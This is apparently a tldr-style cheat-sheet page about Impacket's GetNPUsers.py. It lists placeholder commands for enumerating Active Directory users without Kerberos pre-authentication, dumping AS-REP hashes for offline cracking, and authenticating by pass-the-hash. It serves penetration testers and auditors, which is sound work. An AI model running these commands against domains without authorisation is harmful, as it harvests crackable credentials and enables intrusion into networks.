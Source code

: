 ```yaml
---
title: 'Enumerate AD Users - Find Roasting Targets | Online Free DevTools by Hexmos'
name: getnpusers-py
path: '/freedevtools/tldr/get/getnpusers-py/'
canonical: 'https://hexmos-com/freedevtools/tldr/get/getnpusers-py/'
description: 'Enumerate Active Directory users with GetNPUsers.py to identify potential AS-REP roasting targets, enabling penetration testers to uncover security vulnerabilities. Free online tool, no registration required.'
category: common
keywords:
  - active directory enumeration
  - as-rep roasting
  - kerberos pre-authentication
  - getnpusers.py impacket
  - active directory hacking
  - windows security auditing
  - domain user enumeration
  - network penetration testing
  - ad security vulnerability scanning
  - impacket exploit
features:
  - Enumerate users with disabled Kerberos pre-authentication
  - Perform AS-REP roasting attacks
  - Dump crackable Kerberos hashes
  - Authenticate with specified credentials
  - Support pass-the-hash authentication
ogImage: 'https://hexmos.com/freedevtools/site-banner.png'
twitterImage: 'https://hexmos.com/freedevtools/site-banner.png'
---
```


# GetNPUsers.py

> Enumerate Active Directory accounts with Kerberos pre-authentication disabled, which may be susceptible to AS-REP roasting attacks.
> Part of the Impacket suite.
> More information: <https://github.com/fortra/impacket>.

- Enumerate users with Kerberos pre-authentication disabled (default anonymous enumeration):

`GetNPUsers.py {{domain}}/ -usersfile {{path/to/userslist}} -dc-ip {{domain_controller_ip}} -no-pass`

- Perform AS-REP roasting and dump crackable hashes for offline cracking:

`GetNPUsers.py {{domain}}/ -usersfile {{path/to/userslist}} -dc-ip {{domain_controller_ip}} -no-pass -request`

- Authenticate with valid credentials (if anonymous binding is disabled):

`GetNPUsers.py {{domain}}/{{username}}:{{password}} -usersfile {{path/to/userslist}} -dc-ip {{domain_controller_ip}}`

- Use pass-the-hash authentication instead of a password:

`GetNPUsers.py {{domain}}/{{username}} -hashes {{LM_Hash}}:{{NT_Hash}} -usersfile {{path/to/userslist}} -dc-ip {{domain_controller_ip}}`

- Save the output to a file for further analysis:

`GetNPUsers.py {{domain}}/ -usersfile {{path/to/userslist}} -dc-ip {{domain_controller_ip}} -request > {{path/to/output.txt}}`
